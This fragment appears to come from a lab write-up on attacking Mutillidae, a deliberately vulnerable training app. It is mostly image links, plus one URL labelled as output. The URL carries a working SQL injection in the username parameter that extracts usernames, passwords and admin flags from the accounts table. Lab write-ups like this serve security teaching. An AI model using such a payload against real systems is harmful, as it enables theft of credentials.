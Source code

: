 ![Alt text](img/22.png)

## OUTPUT :

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details


![Alt text](img/23.png)

